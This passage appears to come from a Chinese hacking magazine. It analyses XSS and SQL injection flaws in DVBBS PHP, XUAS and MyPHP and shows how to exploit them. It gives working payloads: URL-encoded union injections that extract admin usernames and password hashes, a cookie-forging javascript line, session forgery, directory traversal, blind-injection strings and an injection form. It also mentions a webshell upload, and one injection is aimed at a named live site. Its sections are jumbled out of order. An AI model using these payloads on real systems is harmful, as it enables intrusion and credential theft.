    'newly_photos' => array(12, "SELECT ... FROM {$dv}space_upfile ... WHERE stype=4 AND islock<3 ..."),

    // 最新文章
    'newly_article' => array(10, "SELECT ... FROM {$dv}space_topic ... WHERE stype=0 AND islock<3 ..."),

    // 最新收藏
    'newly_favorite' => array(10, "SELECT ... FROM {$dv}space_topic ... WHERE stype=1 AND islock<3 ..."),

    // 最新书签
    'newly_bookmark' => array(10, "SELECT ... FROM {$dv}space_topic ... WHERE stype=2 AND islock<3 ..."),

    // 最新播客
    'newly_music' => array(10, "SELECT ... FROM {$dv}space_topic ... WHERE stype=5 AND islock<3 ..."),

    'newly_besttopic' => array(10, "SELECT ... FROM {$dv}space_topic ... WHERE isbest='1' AND islock<3 ORDER BY topicid DESC")
);

foreach ($arrsint AS $key => $arrval) {
    // 生成缓存数据
    ...省略...
}
```

从代码中可以看出，spaceindex.php 在取得数据库中的值时，并没有做任何过滤就把数据输出了。这样，一个典型的跨站漏洞就产生了！下面我们来利用一下这个漏洞。

先注册一个用户，然后激活博客。再打开添加博客文章的页面（这里我们以 “P_Title” 这个变量来演示跨站的效果），然后在“标题”对话框中输入跨站代码 `<script>alert("黑客防线")</script>`，点击“提交信息”按钮后，回到博客的总主页 spaceindex.php，就会发现跨站代码在主页中执行了！如图 1 所示。如果这个漏洞被别有用心的攻击者利用的话，那么后果将不堪设想！


图 1

接下来我们介绍第二个跨站漏洞，这个漏洞存在于 mymodify.php 和 disuser.php 文件中。下面分析一下漏洞产生的成因，mymodify.php 文件的部分漏洞代码如下：

```php
...省略...
elseif($_GET['t'] == '2') { // 联系资料修改
    $stats = $lang['ContactHeaderTitle'];
    if ($action == 'update_contact') {
        $arrNavMenu = array(
            0 => array('linktitle' => $lang['HeaderTitle1'], 'linkurl' => 'usermain.php')
        );
    }
}
...1=>array('linktitle'=>$stats)
);
LoadStyleJs();
UpdateContact();
......省略......
// 校验 email
if( !TestEmail($GLOBALS['Email']) ) {
  showmsg($lang['template.strings31']);
  return false;
} elseif( !is_null($fsetting['banmail']) && $fsetting['banmail']!='' && $fsetting['banmail']!='0' ) {
  $SplitUserEmail = explode('|',$fsetting['banmail']);
  if( !empty($SplitUserEmail) && is_array($SplitUserEmail) ) {
    foreach($SplitUserEmail as $val){
      if( strpos($GLOBALS['Email'],$val)!==false ){
        showmsg($lang['template.strings32']);
        return false;
      }
    }
  }
}
......省略......
// 校验密码
if( $query = $db->query("SELECT userpassword FROM {$dv}user WHERE userid={$userid}") ){
  if( $result = $db->fetch_array($query) ){
    $db->free_result($query);
    if( $result['userpassword'] != $userpassword ){
      showmsg($lang['chgcontact.error.strings1']);
      return false;
    }
  }
}
$HomePage = trim($GLOBALS['homepage']);
if($HomePage!='' && strtolower(substr($HomePage,0,7))!='http://'){
  $HomePage = 'http://' . $HomePage;
}
$NewUserIM = checkreal($HomePage).'|||'.checkreal($oicq).'|||'.checkreal($icq).'|||'.checkreal($GLOBALS['Msn']).'|||'.checkreal($GLOBALS['UserAim']).'|||'.checkreal($GLOBALS['Yahoo']).'|||'.checkreal($GLOBALS['UC']);
$NewUserIM = htmlspecialchars($NewUserIM);
$db->query("UPDATE {$dv}user SET useremail='{$GLOBALS['Email']}', userim='{$NewUserIM}' WHERE userid={$userid};");
```

在 disuser.php 文件中并没有对 email 变量做任何过滤就直接输出了（代码略），所以导致我们能直接执行 HTML 代码进行攻击，以下是测试过程。

注册好用户后，打开右上角的“控制面板”，打开“修改联系资料”选项，在“Email 地址”中输入跨站代码 `hfdgh@<script>alert("黑客防线NO.1")</script>.com`，点击“更新”按钮后，打开用户信息查看页面 disuser.php，就会看到跨站语句被成功执行了！如图 2 所示。


图 2

第三个跨站漏洞存在于 indivgroup_manage.php 和 indivgroup_index.php 文件中，以下是 indivgroup_manage.php 文件的部分漏洞代码。

```php
switch($_GET['action']) {
  ......省略......
  case 'boardmanage':
    head(1,0,0,$title_num,$mygrouplink);
    board_info();
    footer();
    break;
  ......省略......
}

function board_new(){ // boardname, boardinfo, indexing, boardrules, boardstats
  global $db,$lang,$dv,$restriction,$page,$userid,$membername;
  $boardname = trim($_POST['boardname']);
  $boardinfo = trim($_POST['boardinfo']);
  $indeximg  = trim($_POST['indeximg']);
  $boardrules= trim($_POST['boardrules']);
  $boardstats= intval($_POST['boardstats']);
  $groupid   = intval($_POST['groupid']);
  $retStr = "";
  if(($groupid=='') || ($groupid==0)){
    $retStr = $lang['error_url'];
  }
}
```

从代码中可以看出，变量 email 在经过一个正则表达式函数的过滤后（代码和普通的邮箱正则表达式一样，所以省略），就被 update 到数据库中了，这样不仅产生了注入漏洞，同时也产生了跨站漏洞！和前面一样，如果我们要进行注入攻击时，首要条件就是服务器上的 `magic_quotes_gpc = on` 才能利用，所以我们还是测试 XSS 跨站漏洞吧！

```php
}
else if($boardname == '')
{
    $retStr = $lang['error_name_board'];
}
else if($membername == '')
{
    $retStr = $lang['error_app'];
}
else
{
    $boardname = $db->escape_string($boardname);
    $boardinfo = $db->escape_string($boardinfo);
    $indeximg = $db->escape_string($indeximg);
    $boardrules = $db->escape_string($boardrules);
    $db->query("insert into {$dv}group_board
    (boardname,boardinfo,indeximg,rules,boardstats,rootid,founddate)
    values ('".$boardname."','".$boardinfo."','".$indeximg."','".$boardrules."','".$boardstats."','".$groupid."',now())");
}
```

```php
if($_GET['action'] == 'appgroup'){
    head(1,0,0,$title_num,$mygrouplink);
    save_new();
    footer();
    ......省略......
}
function save_new(){
    global $db,$lang,$dv,$restriction,$page,$userid,$membername,$fsetting;
    $GroupName = trim($_POST['GroupName']);
    $GroupInfo = $_POST['GroupInfo'];
    $Locked = intval($_POST['Locked']);
    $ViewFlag = intval($_POST['ViewFlag']);
    ......省略......
    $GroupName = $db->escape_string($GroupName);
    $GroupInfo = $db->escape_string($GroupInfo);
    $Locked = $db->escape_string($Locked);
    $ViewFlag = $db->escape_string($ViewFlag);
    ......省略......
    $db->query("insert into {$dv}group_name(groupname,groupinfo,appuserid,appusername,usernum,stats,limituser,appdate,passdate,locked,viewflag,groupface)
    values ('".$GroupName."','".$GroupInfo."','".$userid."','".$membername."',1,'".$stats."','".$fsetting['indivgroup_limit']."',now(),now(),'".$Locked."','".$ViewFlag."','".$faceurl."')");
}
```

从以上代码可以看出，boardname、indeximg 和 boardinfo 等变量在经过 escape_string 函数过滤后就插入到了数据库中。虽然经过了 escape_string 函数的过滤，但 escape_string 这个函数并不影响我们的跨站攻击。在数据插入数据库后，indivgroup_index.php 文件又直接把它调了出来，这就造成了一个跨站漏洞！

下面我们利用 boardname 变量来给大家演示跨站效果。先新建一个群组，再打开群组管理页，新建一个栏目，栏目的名称就是我们的跨站语句“<script>alert('诚爱娜')</script>”，点击“保存设置”后，回到群组的首页 indivgroup_index.php 就可以看到跨站语句被成功执行了！过程如图3所示。

从以上代码可以看出，变量 GroupName 和 GroupInfo 在经过了 escape_string 函数的过滤后就插入到了数据库中。前面已经说过 escape_string 函数对我们跨站利用的影响不大，而在这两个变量进入数据库中时，indivgroup_list.php 和 admin/indivgroup.php 文件却直接把它们从数据库中取出来后就直接输出，导致又一个跨站漏洞产生！

这里我们以“GroupName”变量来演示这个跨站漏洞，打开申请群组页面 indivgroup_new.php，然后在其“群组名称”中输入跨站代码“<script>alert(/嘿嘿,我是诚爱娜/)</script>”，输入好后点击“创建群组”按钮，再打开群组列表页面就可以看到跨站语句被成功执行了，而后台的 admin/indivgroup.php 文件同样也被插入了恶意代码。如图4和图5所示。


图3

下面我们来介绍最后一个跨站漏洞，漏洞存在于 indivgroup_new.php、indivgroup_list.php 和 admin/indivgroup.php 这3个文件中。indivgroup_new.php 文件的部分漏洞代码如下：

## 深入分析注入漏洞

在这次研读 DVBBS PHP 最新版的代码中，我发现了6个注入漏洞！真是出乎我的意料！以下我一次性地给出所有存在注入漏洞的文件的漏洞代码，然后选取其中一个做演示。


图4


图5

首先是2008年第7期爆出 0Day 的 topicother.php 文件，这次它又再爆出注入漏洞，其漏洞代码如下：

```php
function AdminActive_Main(){
    ...省略...
    $activeuserid = $_POST['activeuserid'];
    if(empty($activeuserid)){
        head(0,0,0,$arrNavMenu);
        showmsg($lang['Active_Error.str11']);
        exit;
    }
    if ($userid==0) {
        head(0,0,0,$arrNavMenu);
        showmsg($lang['Active_Error.str12']);
        exit;
    }
    switch($action){
    case 'is':
        foreach($activeuserid as $val){
            $db->query("update {$dv}activeuser Set isexamine=1 Where id={$val}");
        }
    }
}
```

从代码中可以很轻松地看出，如果变量“activeuserid”不为空的话，就 update 进了数据库，这样就产生了典型的注入攻击。

第二个注入漏洞存在于 myfile.php 文件，其部分漏洞代码如下：

```php
$delIDList = implode(',',$_POST['delid']);
if (!checkIDList($delIDList)) { ... }
```

```php
showmsg($lang['error.file.strings35_42']);
exit;
}
if( $master || $superboardmaster || $boardmaster ){
    $db->query("DELETE FROM {$dv}upfile WHERE f_id IN(($delIDList))");
}else{
    $db->query("DELETE FROM {$dv}upfile WHERE f_flag<>2 AND f_userid={$userid} AND f_id IN(($delIDList))");
}
showmsg($lang['tpl.file.strings20'],1,$_SERVER['HTTP_REFERER']);
```

从以上代码可以看出，变量 delIDList 被 implode() 函数以逗号“,”分割开了，然后又经过了 checkIDList 函数的检测。我们再来看看 checkIDList 函数是怎么写的。

```php
function checkIDList($id_list){
    if($id_list."" == "") return false;
    return ( preg_match('/^(?:[0-9]+,)+$/i',"{$id_list},")===0 ? false : true );
}
```

从代码中可以发现，这个函数对我们的注入并没有什么影响，但要利用起来还是比较麻烦的。第三个注入漏洞存在于 query.php 文件中，我们来看看其部分漏洞代码：

```php
$PageStr = $SearchStr = "stype={$GLOBALS['stype']}&psearch={$GLOBALS['psearch']}&nsearch={$GLOBALS['nsearch']}&boardid={$_POST['boardid']}&searchdate={$GLOBALS['searchdate']}&keyword=".urlencode($GLOBALS['keyword'])."&s={$GLOBALS['s']}&isweb={$GLOBALS['isweb']}&stable={$GLOBALS['stable']}";
// 注意 boardid 变量是直接 POST 取值的
$loginhidden = $groupsetting[37];
$action = $GLOBALS['action'];
global $master,$superboardmaster;
if( $master || $superboardmaster ){
    $Master = 1;
}else{
    $Master = 0;
}
$_tableList = & $db->getResultSet("SELECT id,tablename,tabletype FROM {$dv}tablelist", array('absolutePage'=>$page,'pageSize'=>$pagesize));
include printout('query.result');
```

```php
// 搜索主题
function SearchType2(){
    global $boardid,$arrNavMenu,$stats,$dv,$db,
           $setting,$groupsetting,$lang,$userid,$membername,$master,
           $boardmaster,$superboardmaster,$stype,$issavvy;
    global $selsearch,$SearchMaxPageList,$table,
           $keyword,$keywordMBLength,$Foundmykeyword,
           $psearch,$nsearch,$isweb;

    $RecordRowLimited = $setting['otherpagesize'] * $SearchMaxPageList;
    empty($issavvy) || !is_numeric($issavvy) || $issavvy=1 && $issavvy=0;
    $searchtable=$dv.($issavvy==1?'savvy_topic':'topic');

    $now = TIME_NOW;
    $dateCompare1 = dateAdd('s',-$setting['searchlimited_time'],TIME_NOW,'');
    $dateCompare2 = dateAdd('s',-$setting['searchlimited_time'],TIME_NOW,'');

    $Record_Count = 0;
    $qidList = '';

    if($query = $db->query("SELECT id_count,qid_list,@qidList:=NULL FROM {$dv}querycache WHERE boardid={$boardid} AND stype='{$stype}' AND creation_datetime>'{$dateCompare2}' AND keyword='{$keyword}'")){
        // boardid 变量进入数据库
    }
}
```

```php
{
    $retStr= $lang['error_url'];
}
else if($membername == '')
{
    $retStr= $lang['error_app'];
}
else
{
    $intro= $db->escape_string($intro);
    $db->query("update {$dv}group_user set islock='".$islock."',intro='".$intro."' where groupid={$groupid} and id={$id}");
}
if($retStr == '')
{
    echo "<script>parent.submitform_suc();</script>";
}
else
    echo "<script>parent.information('".$retStr."');</script>";
```

从代码中明显可以看出，变量 `id` 和 `intro` 在 POST 取值后并没有做任何过滤就 update 进数据库，这样就造成了注入漏洞。但由于 `intro` 变量在进库前后都加上了单引号 `' '`，所以如果要利用 `intro` 变量进行注入的话，只能在 `magic_quotes_gpc=on` 的情况下才能利用，不过不用怕，我们还有变量 `id`，直接注入就行了！

看完 `indivgroup_manage.php` 文件的第一个注入漏洞，我们来看其第二个注入漏洞，漏洞存在于 `user_del()` 过程，我们来看看其部分漏洞代码。

这段代码比较凌乱，大家可以参考我的注释。从这段漏洞代码中可以看出，`boardid` 变量并没有做任何过滤就进入数据库进行查询了，这样就导致我们可以进行注入攻击。

接下来的3个漏洞均存在于 `indivgroup_manage.php` 文件中，这个文件可以说是万恶之首，居然存在一个跨站和3个注入。我们下面分析一下其漏洞的成因。首先来看看 `user_save()` 过程的注入。

```php
function user_save(){
    global $db,$lang,$dv,$restriction,$page,$userid,$membername;
    $id= trim($_POST['id']);
    $groupid= intval($_POST['groupid']);
    $islock= intval($_POST['islock']);
    $intro= trim($_POST['intro']);
    $retStr= '';
    if(($groupid == '') || ($groupid == 0) || ($id == '') || ($id == 0)){
        ...
    }
}
```

```php
function user_del(){
    global $dv,$db,$lang,$info_list,$page,$total,$page_size,
           $offset,$page_count,$p,$userid,$membername,$boardmaster;
    $id= trim($_GET['id']);
    $groupid= intval($_GET['groupid']);
    $retStr= '';
    if(($groupid == '') || ($groupid == 0) || ($id == '') || ($id == 0)){
        $retStr= $lang['error_url'];
        showmsg($lang['error_url']);
    }else{
        $intro= $db->escape_string($intro);
        $db->query("delete from {$dv}group_user where groupid={$groupid} and id={$id}");
    }
}
```

```php
$db->query("update {$dv}group_name set usernum=(usernum-1) where id='".$groupid."'");
user_list();
}
}
```

从代码中可以看出，变量 id 在经过 GET 取值后并没有做任何过滤就进入数据库进行查询了，这就导致了注入的再次产生。

然后我们来看 indivgroup_manage.php 文件的第二个注入漏洞，漏洞存在于 user_setadmin() 过程。

```php
function user_setadmin(){
  global $dv,$db,$lang,$info_list,$page,$total,$page_size,$offset,$page_count,$p,$userid,$membername,$boardmaster;
  $id = trim($_GET['id']);
  $groupid = intval($_GET['groupid']);
  $retStr = "";
  if(($groupid=='') || ($groupid==0) || ($id=='') || ($id==0)){
    $retStr = $lang['error_url'];
    showmsg($lang['error_url']);
  } else {
    $intro = $db->escape_string($intro);
    $db->query("update {$dv}group_user set islock='2' where groupid={$groupid} and id={$id}");
    user_list();
  }
}
```

从代码中可以看出，变量 id 在 GET 取值后并没有做任何过滤就 update 进了数据库，又是一个典型的注入漏洞。

可能有的朋友会问，update 的注入该怎么利用呢？其实也没什么特别，直接用 select 进行子查询就行了，和 Access 数据库下的注入几乎完全一样，如果大家想进行高级利用的话，可以参考一下 superhei 写的《mysql 下 update 注射的两个模式》一文。

接下来我们就用 indivgroup_manage.php 文件中的 user_setadmin() 过程的注入漏洞来演示一下。我们先注册好两个用户，用第一个用户申请一个群组，然后用第二个用户加入第一个用户创建的群组，然后用第一个用户登录，打开群组管理页面中的“成员管理”功能，就会看到第二个用户在成员列表中。

我们把鼠标放到第二个用户的用户名上面，就可以从浏览器左下方看到用户的 id 是多少了，然后我们构造如下 URL：“http://www.hacker.com.cn/dvbbs/indivgroup_manage.php?action=usersetadmin&groupid=1&page=&mode=&id=5”，用浏览器打开这个地址后就会看到如图6所示的页面。


确定漏洞存在后，我们先来看看新加入的用户 admin 的群组权限是什么，如图7所示。从中可以看出，用户 admin 在这个群组中只是普通成员。我们再构造如下 URL：“http://www.hacker.com.cn/dvbbs/indivgroup_manage.php?action=usersetadmin&groupid=1&page=&mode=&id=5 and 1=1”，用浏览器打开后，可以发现，admin 用户已经变成了管理员，如图8所示。


然后我们把 admin 的权限重新设置为“普通会员”，再构造如下 URL：“http://www.hacker.com.cn/dvbbs/indivgroup_manage.php?action=usersetadmin&groupid=1&page=&mode=&id=5 and 1=2”，打开该地址后，可以看到 admin 的权限并没有变成管理员，而是如图7所示的普通成员。

好了，DVBBS 2.0 PHP++ 最新版的漏洞就介绍到这里了，到截稿为止，DVBBS 还没有修补该漏洞，文中有什么疏漏的地方还请大家多多指出，同时也欢迎大家到黑防论坛与我讨论脚本安全的问题，我的 ID 是“诚妹”。

前置知识：PHP

关键词：防注入、Cookie、Session、一流信息监控拦截系统

# 绕过的注入

### ——XUAS、MYPHP最新漏洞分析

文／图 Cschi

如今多数网站都使用了防注入手段，我们再想找到典型的注入漏洞变得越来越困难了，但事实上有些通用防注入的过滤并不是那么严密，导致被轻易绕过继续注入。本文在此基础上爆出 XUAS（讯时）和 MYPHP 的最新漏洞，虽然这两个分别是 ASP 和 PHP 的整站系统，但都是绕过防注入时被发现的，所以一并分析。

```asp
GuoLv="select,insert,;,,update,!,delete,exec,admin,count,drop,from,trunate,xp_cmdshel,netlocalgroup,and,chr,master,declare,*,char"
' 禁止出现的字符串
GuoLvA=split(GuoLv,",")
for i=0 to ubound(GuoLvA)
  if instr(sss,GuoLvA(i))<>0 then
    Response.Redirect "res://shdoclc.dll/dnserror.htm"
    response.end
  end if
next
```

## 绕过 XUAS

XUAS 给我们的感觉是一套安全性尚需加强的系统，一直在修修补补，隔三差五地总要爆出个漏洞，但作为个人作品能做到如此程度还是非常不错的，毕竟作者是从零做起的。我们做的只不过是增砖添瓦罢了。

漏洞1：绕过防注入。`news_more.asp` 文件的 `lm2` 变量没有使用 `isNumeric` 判断导致注入。XUAS 在 `admin_conn.asp` 中使用了防注入语句，核心在于对 `request.servervariables("QUERY_STRING")` 的处理。该问题在 3.4 版本持续存在，3.5 版本开始做了修改。

不难看出作者目的是：使用 `Request.QueryString` 获取变量弥补 `Request.ServerVariables` 的不足。但是语句仍存在问题：一是没有对 `Request.QueryString` 获取的变量使用 `LCase`，于是可用大小写混淆绕过；二是语句只对 `Request.QueryString` 方式做了过滤，但在其他文件中却使用 `Request()` 方式获取变量。由于 `Request` 对象会依照 QueryString、Form、Cookies、ClientCertificate、ServerVariable 顺序返回信息，因此通过其他方式取值同样可以绕过这段防注入语句。

```asp
For each j in Request.QueryString
  sss=sss & j & Request.QueryString(j)
Next
sss=sss & LCase(Request.ServerVariables("QUERY_STRING"))
' 以上为新增加的语句
```

分析 `news_more.asp` 文件，代码如下：

```asp
lm2 = trim(Request("lm2"))
sql2 = "select * from lm where id=" & lm2
' 明显的数字型注入漏洞
Set rs2 = Server.CreateObject("ADODB.RecordSet")
rs2.Open sql2,conn,1,1
if rs2.recordcount=0 then
  sql2 = "select * from lm order by id asc"
  Set rs2 = Server.CreateObject("ADODB.RecordSet")
  rs2.Open sql2,conn,1,1
  ...
  if rs2.recordcount <> 0 then
    mb=trim(rs2("mb"))
    lmm=rs2("lm") & rs2("lm2") & rs2("lm3")
    ...
    sql3 = "select * from newsmb where id=" & cint(mb)
    Set rs3 = Server.CreateObject("ADODB.RecordSet")
    rs3.Open sql3,conn,1,1
    if rs3.recordcount<>0 then
      listmb=rs3("listmb")
      listmb=replace(listmb,"$$栏目名$$",lmm)
      listmb=replace(listmb,"$$路径$$",lmaa())
    ...
    end if
  end if
end if
```

因为 lm 表默认为 8 个字段，所以构造出 union 语句如下。“0x3b”为 Access 语句中字符“;”的 0x 表示方法；“%26”为 Access 语句的字符串连接符“&”。

```text
/news_more.asp?lm2=1%20%41nd%201=2%20union%20%53elect%20l,id,3,0x3b%26user,0x3b%26pass,6,7,8%20%46rom%20%41dmin%20union%20%53elect%20*%20%46rom%20lm%20where%201=2

// %41=A, %53=S, %46=F, 0x3b%26=;&，使用“1=2”使得 select 语句返回为空
```

通过上面分析知道，关键还是确定 select 语句中的第 3 个字段值，使得 `rs3` 非空且 `listmb` 字段值中存在字符串“$$栏目名$$”，默认为“3”。注入结果将显示在页面窗口的标题处，如图1所示。

图1

当然，这要求管理员没有修改“一般简单模板”页头中的“$$栏目名$$”，如果被管理员修改了，就必须手工注入，注入方法略。

漏洞2：`admin_link_js.asp` 文件未包含 `admin_chk.asp`，而且变量 `n` 未过滤导致注入，代码如下：

```asp
linktype=trim(Request("link"))
n=trim(Request("n"))
...
if linktype="1" then
...
elseif linktype="2" and w<>"" and n<>"" then
  if n<>"0" then
    ttt="top " & n
  end if
  sql = "select " & ttt & " * from link where logo='' order by ontop desc, upd desc, id desc"
  Set rs = Server.CreateObject("ADODB.RecordSet")
  rs.Open sql,conn,1,1
  if rs.recordcount<>0 then
  ...
  end if
end if
```

分析略，利用链接如下，注入结果如图2所示。

图2

```text
/admin/admin_link_js.asp?link=2&n=3%20id%20as%20id,user%260x3b%26pass%20as%20linkname,pass%20as%20url,4,5,0x53%20as%20ontop,0x53%20as%20upd,8,9,10,11,12%20%46rom%20%41dmin%20union%20%53elect%20...
```

因为 XUAS 的版本比较多，此漏洞的利用需要根据实际情况而定，比如有的字段个数不是 3.5 版的 12 个，而是 7 个；还有的 `admin_link_js.asp` 文件不在 admin 目录，而是在根目录下的，并且是 MSSQL 数据库——这更方便了注入，如图4所示；但是此漏洞几乎是通杀的，以下漏洞3也存在类似情况。

漏洞3：绕过 Cookie。`Edit/admin_uploadfile.asp` 文件采用 Cookies 验证，导致可以跨目录浏览。

图3

图4

图5

`Admin_Private.asp` 包含文件中使用 Session 进行验证，但是 XUAS 将其注释掉了，只在 `admin_uploadfile.asp` 文件使用了如下语句进行 Cookies 验证，加之 eWebEditor 没有过滤变量 `dir`，导致可以跨目录浏览。

我们直接下载也就无需注入了。进入后台后还可以利用 eWebEditor 在线编辑器的上传漏洞——增加上传类型“asaspp”上传 Asp 木马，获得 WebShell。

漏洞4：绕过 Session。`admin_lm_edit.asp` 文件中的变量 `id` 未过滤，直接引入查询语句导致注入。注入本身没什么可说的，但是利用却需要些技巧，这里我们有必要分析一下该文件的后台验证过程，因为这是编写代码时必须注意的。该文件同样没有包含 `admin_chk.asp` 文件，但是不像漏洞3那样使用 Cookies 验证，而是使用了 Session 验证，代码如下：

```asp
' Cookies 验证
if Request.Cookies("adminid")<>"1" then
  Response.Write "<BR><BR><BR><BR><center>权限不足，你没有此功能的管理权限"
  Response.End
end if

' 变量 dir 未过滤 ".." 等敏感字符
sDir = Trim(Request("dir"))
If sDir <> "" Then
  If CheckValidDir(Server.MapPath(sUploadDir & sDir)) = True Then
    sCurDir = sUploadDir & sDir & "/"
  Else
    sDir = ""
  End If
End If
```

```asp
if Session("dj")<>"1" then
  Response.Write "<BR><BR><BR><BR><center>权限不足，你没有此功能的管理权限"
  Response.End
end if
if Session("admin__user")="" then
  Response.Redirect "login.asp?id=8"
end if
' 可见访问该文件的条件是：Session("dj")=1，Session("admin__user")非空
```

首先使用 `javascript:alert(document.cookie="adminid=1")` 语句伪造 Cookies，然后利用如下链接跨目录浏览：

```text
/Edit/Admin_UploadFile.asp?id=46&dir=../../..
// 注意：dir 不能以“/”或“\”开头或结尾
```

我们知道，Session 是不可以伪造的，但是 XUAS 在 `admin_chk.asp` 文件中处理 Session 时不严密，导致我们可以利用 `admin_chk.asp` 文件伪造 Session！该文件在 3.5 版本一共两个，分别在根目录和 admin 目录中，代码如下：

```asp
Session("admin__user")=chkh(Request.Cookies("adminuser"))
Session("admin__pass")=chkh(Request.Cookies("adminpass"))
Session("dj")=chkh(Request.Cookies("adminid"))
' 可见 Session("dj") 和 Session("admin__user") 均取自 Cookies
```

检测 XUAS 官网，如图5所示，此漏洞还将导致文件（夹）被任意删除。此漏洞有利于我们查找管理数据库目录，如果管理员曾备份过数据库为 mdb 类型的文件，……

```asp
adminuser=chkh(Request.Cookies("adminuser"))
adminpass=chkh(Request.Cookies("adminpass"))
admindj=chkh(Request.Cookies("admindj"))
if adminuser="" or adminpass="" then
  Response.Redirect "../login.asp?id=8"
end if

' 当 Cookies 的 adminuser 或 adminpass 为空时，重定位页面到 login.asp，但重定位前未释放已生成的 Session。
```

一旦注出管理员名及密码 MD5 码，就可以利用 Cookies 欺骗进入后台，进而通过数据库备份或 eWebEditor 在线编辑器获得 WebShell。此漏洞也告诫我们，在处理 Session、Cookies 时一定要慎重，使用完毕后一定要释放这些变量，做到“有始有终”。

从代码我们不难分析出：Session 的 `dj` 和 `admin__user` 均取自 Cookies 的 `admindj` 和 `adminuser`；当 Cookies 的 `adminuser` 或 `adminpass` 为空时重定位页面，但重定位前未释放 Session。因此可以先构造 Cookies 并请求 `admin_chk.asp` 生成 Session，再访问 `admin_lm_edit.asp` 构造变量 `id` 进行注入。

## 绕过“一流”

检测华夏黑客同盟旗下的华安普特（www.77169.com.cn），发现使用了一款名为“一流信息监控拦截系统（IMB System）”的防注入系统。文章分析其拦截机制及绕过思路。

图6

图7

- 第1步：伪造 Cookies：  
  `javascript:alert(document.cookie="adminuser=admin");alert(document.cookie="admindj=1")`
- 第2步：请求 `admin_chk.asp` 文件，尽管页面重定位到 `login.asp`，但 Session 已生成。
- 第3步：访问 `admin_lm_edit.asp` 文件，构造变量 `id` 进行注入。

显然“一流”已经对 Tab 空格做了防范（起码华安普特是这样）。常见处理是先 `str_replace` 替换 Tab，再 `explode` 分割并检测危险字符串。可利用 ASCII 09~0D 范围字符替代空格，在不影响 MySQL 执行的情况下绕过过滤。

```text
/admin/admin_lm_edit.asp?id=1%20%41nd%201=2%20union%20%53elect%201,2,3,4,id%26ux3b%26user%26ux3b%26pass,6,7,8%20%46rom%20%41dmin
```

漏洞1：绕过“一流”。`product.php` 页面的 `pid` 变量过滤不严，导致存在数字型注入点。

经测试发现只有在左侧的下级栏目才存在注入，如图8所示。

图8

给 `pid` 变量值后加任意字符提交，如果使用了 `intval()` 函数或者单引号，那么返回页面应该不受影响，否则页面出错，如图9所示。

图9

- `pid` 变量既未用 `intval()` 函数过滤也未用单引号，直接引入了 MySQL 语句中。
- 引入的 MySQL 语句为：`SELECT * FROM somi_product where dirid=6p and 1=1 order by ontop desc,time desc limit 0,6`。
- 通过搜索 `somi` 可知网站使用的是硕美（somi）整站系统（MyPhp 较早版本），并据此转向分析最新版本。

其实触发这个漏洞的不是 `product.php` 文件，而是 `include/include_default.php` 文件，代码如下。

```php
$id = $_GET['pid'];
// 直接获取，未使用 intval() 函数
if (empty($id)) {

} else {
  $re2s = $db->query("select * from {$prefix}_product_dir where id='".$id."'");
  $re2r = $db->getarray($re2s);
  $did = '';
  if ($re2r['did'] == 0) {
    // ...
    if (empty($did)) {
      $did = 'and (did='.$id.')';
    } else {
      $did = 'and (did='.$id.'||'.$did.')';
    }
  }

  $tal = $db->getarray($db->query("select COUNT(*) as total from {$prefix}_product where passed=1 and available=1 $did order by id asc"));

  if (empty($id)) {
    $rels = $db->query("SELECT * FROM {$prefix}_product where passed=1 and available=1 order by compositor asc,id desc limit $pbegin,$perpage");
  } else {
    $rels = $db->query("SELECT * FROM {$prefix}_product where passed=1 and available=1 $did order by compositor asc,id desc limit $pbegin,$perpage");
  }
}
```

经分析发现，变量涉及两处 MySQL 语句，按理不能构造 union 语句只能手工注入；但由于错误处理逻辑，语句①出错后语句②仍可能继续执行。注入华安普特的链接如下，注出结果如图11和图12所示。

```text
http://www.77169.com.cn/product.php?pid=6%0aunion%0aselect%0a1,2,3,4,5,6,7,username,password,10,11,12,13,14,15,16,17,18,19%20from%20somi_user%20where%20usergroupid=1%23
```

图10

图11

图12

因为 MyPhp v4.0 版的 `product.php` 文件后面又调用了 `include/include_product.php`，重写了 `include/include_default.php` 中“输出产品数据”部分的代码，使得 `include_default.php` 存在的漏洞在随后的 `include_product.php` 中被改正了。这样无论 `include_default.php` 中的注入是否成功，都不会影响 `product.php` 页面的输出。所以对于 4.0 版本不能使用常规的 union 和手工注入语句。

但是 `include/include_default.php` 的注入确实存在，只不过是结果不能返回。于是使用 MySQL 的 BenchMark 函数，根据页面响应时间（即 MySQL 语句的执行时间），判断条件的真假，进行手工注入或者 DDOS 攻击。利用方法请参阅黑防网站的相关教程。此漏洞几乎影响到 MyPhp 的所有页面，因为都包含了 `include/include_default.php` 文件。

## 漏洞2：`logs.php` 文件在“act=comm”模块中的变量 `lid` 未过滤导致注入

代码如下：

```php
case 'comm':            // act=comm
......
$auth_code_obj = new AuthCode();
$validate = $_POST['validate'];
if ($auth_code_obj->validate($validate, false)) {
    // 当“session['auth_code_none_case']”等于“md5(strtolower($validate))”时通过验证码
    $db->insert("list({$prefix}_blog_comm", $_POST, '|username|content|id|time|');
    // 该页面每被访问一次，mp_blog_comm表中增加一条记录，但不影响我们的注入
    $message = '已经评论成功,正在返回';
    $jumpurl = "logs.php?act=page&id=".$_POST['lid'];
    // 跳转链接，默认返回
    $db->update("update {$prefix}_blog_logs set comm=comm+1 where id={$_POST['lid']}");
    // 很明显的注入点，不能使用union语句，如果不使用BenchMark时，需要手工注入
} else {......}
......
exit();
break;
}
```

通过分析，可见要成功利用此漏洞需要解决几个关键问题：

- 一是获取验证码，请求 `include/auth/getimg.php` 或 `include/auth/getimage.php` 文件即可；
- 二是构造注入的语句，基本语句为“`5 and (select Ord(Mid(password,1,1)) from mp_members where groupid=1 limit 1)>50`”；
- 三是以 POST 方式提交变量；
- 四是如何查看 comm 值的变化。

提交表单的 HTML 文件内容如下，其中“`http://localhost/myphp`”根据实际 URL 确定。

```html
<form name="loginform" id="loginform" action="http://localhost/myphp/logs.php?act=comm" method="post">
    注入语句: <input name="lid" type="text" size="80"><br>
    验证码: <input name="validate" type="text">
    <br>
    <br>
    <input type="submit" name="Submit" value="提交">
</form>
```

查看 comm 值的变化需要另外一个漏洞，就是 `$language` 变量从 Cookie 获取后并没过滤“..”等敏感字符，导致可以跨目录调用 HTML 文件。MyPhp 的所有页面均通过代码 `$smarty->display('skins/'.$skins.'/'.$language.'_***.html', cache_id('down_page.php'))` 调用指定的 HTML 模板文件……

```php
$language = $_COOKIE['language'];
if (empty($language)) {
    // 当Cookie中的language为空时，从mp_setup表的skins字段获取
    if (empty($setup['language'])) {
        @setcookie('language', 'cn', 0, '/');
        $language = 'cn';
    } else {
        @setcookie('language', $setup['language'], 0, '/');
        $language = $setup['language'];
    }
}
```

